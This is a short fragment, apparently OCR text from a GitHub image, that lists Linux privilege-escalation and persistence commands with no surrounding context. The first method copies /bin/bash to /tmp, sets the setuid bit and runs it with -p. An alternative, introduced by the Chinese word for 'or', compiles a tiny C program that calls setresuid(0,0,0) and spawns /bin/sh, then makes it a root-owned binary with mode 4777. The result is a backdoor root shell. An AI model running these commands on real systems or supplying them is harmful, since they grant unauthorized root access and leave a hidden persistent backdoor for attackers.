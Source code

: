 	>cp /bin/bash /tmp/tmp
	>chmod u+s /tmp/tmp
	>/tmp/tmp -p
	或者
	>TMPDIR2="/var/tmp"
	>echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
	>gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
	>rm $TMPDIR2/croissant.c
	>chown root:root $TMPDIR2/croissant
	>chmod 4777 $TMPDIR2/croissant